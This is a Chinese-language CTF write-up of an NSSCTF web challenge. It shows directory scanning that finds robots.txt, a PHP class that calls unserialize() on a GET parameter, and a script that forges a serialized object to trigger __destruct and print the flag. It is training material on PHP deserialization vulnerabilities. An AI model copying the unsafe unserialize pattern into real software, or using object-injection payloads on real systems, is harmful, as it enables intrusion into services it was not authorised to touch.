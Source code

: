 `http://node1.anna.nssctf.cn:xxxxx/` 什麼都沒有 -> 用dirmap刷 -> 有`/robots.txt`  
```c++
[200][text/html][304.00b] http://node1.anna.nssctf.cn:28894/index.html                     
[200][text/plain][35.00b] http://node1.anna.nssctf.cn:28894/robots.txt                     
[200][image/gif][242.28kb] http://node1.anna.nssctf.cn:28894/hutao.GIF 
```
`http://node1.anna.nssctf.cn:xxxxx/robots.txt` -> 知道還有一個`/cl45s.php` -> 去 `http://node1.anna.nssctf.cn:xxxxx/cl45s.php`

```php
 <?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?> 
```
從這個php看見有`admin`和`passwd`在創建時自動給值`user`和`123456` -> 但這樣不滿flag的要求

`unserialize(）` -> 用於反序列化

所以我要把`admin`和`passwd`在創建後換成`admin`和`ctf` -> 然後再把結果序列化 -> 把序列化的結果偽造成`p`再次傳入

`http://node1.anna.nssctf.cn:xxxxx//cl45s.php?p={序列化的結果}` -> flag

```php
< <?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}
$aa = new wllm;
$aa->admin='admin';
$aa->passwd='ctf';
$stus = serialize($aa);
print_r($stus);

?> 

```

|知識點||
|----|-----|
|robots.txt|告诉搜索引擎哪些页面可以抓取,哪些页面不能抓取|
|PHP魔术方法|魔术方法是PHP面向对象中特有的特性。它们在特定的情况下被触发，都是以双下划线开头，利用魔术方法可以轻松实现PHP面向对象中重载（Overloading即动态创建类属性和方法）。 问题就出现在重载过程中，执行了相关代码。|
|反序列化漏洞|当程序在进行反序列化时，会自动调用一些函数，例如__wakeup(),__destruct()等函数，但是如果传入函数的参数可以被用户控制的话，用户可以输入一些恶意代码到函数中，从而导致反序列化漏洞。|
|__construct()|創建時自動執行|
|__destruct()|結束時自動執|
